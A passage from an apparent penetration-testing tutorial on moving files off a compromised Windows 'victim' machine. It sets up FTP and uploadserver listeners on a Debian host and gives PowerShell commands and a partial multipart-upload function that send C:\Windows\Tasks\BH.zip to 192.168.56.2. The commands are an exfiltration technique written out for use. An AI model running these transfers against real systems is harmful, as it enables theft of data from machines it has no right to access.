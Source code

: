 Again, the `cap_net_bind_service` capability is needed over Python binary to bind lower ports without root privileges:

```console
inte@debian-pc:~$ sudo apt install libcap2-bin
inte@debian-pc:~$ sudo setcap 'cap_net_bind_service=+ep' /usr/bin/python3.12
```

Start the FTP server:

```console
inte@debian-pc:~$ python3 -m pyftpdlib -p 21 -d `pwd` --write
```

Files can now be transferred from the victim:

```console
PS C:\> (New-Object Net.WebClient).UploadFile("ftp://192.168.56.2/BH.zip", "C:\Windows\Tasks\BH.zip")
```

The designated port does not have to be 21.

### 4. uploadserver

Install [uploadserver](https://github.com/Densaugeo/uploadserver):

```console
inte@debian-pc:~$ python3 -m pip install --break-system-packages uploadserver
```

Start the server:

```console
inte@debian-pc:~$ python3 -m uploadserver 10000
```

Transfer the files from the victim:

```console
PS C:\> Invoke-WebRequest -Uri "http://192.168.56.2:10000/upload" -Method Post -Form @{ files = Get-Item -Path "C:\Windows\Tasks\BH.zip" }
```

However, the `-Form` feature was added in PowerShell 6.1.0  
On older versions, the request needs to be crafted manually. Here's a function to achieve the same:

```powershell
function Invoke-Upload {
    param (
        $Uri,
        $FilePath,
        $FieldName = "files"
    )
    $fileName = [System.IO.Path]::GetFileName($FilePath)
    $fileContent = [System.IO.File]::ReadAllBytes($FilePath)
    $boundary = [System.Guid]::NewGuid().ToString()
    $headers = @{ "Content-Type" = "multipart/form-data; boundary=$boundary" }
    $bodyLines = @(
        "--$boundary",
        "Content-Disposition: form-data; name=`"$FieldName`"; filename=`"$fileName`"",
        "Content-Type: application/octet-stream",
        ""
    )

    $headerBytes = [System.Text.Encoding]::UTF8.GetBytes(($bodyLines -join "`r`n") + "`r`n")
    $footerBytes = [System.Text.Encoding]::UTF8.GetBytes("`r`n--$boundary--`r`n")
    $bodyBytes = New-Object byte[] ($headerBytes.Length + $fileContent.Length + $footerBytes.Length)

    [System.Buffer]::BlockCopy($headerBytes, 0, $bodyBytes, 0, $headerBytes.Length)
```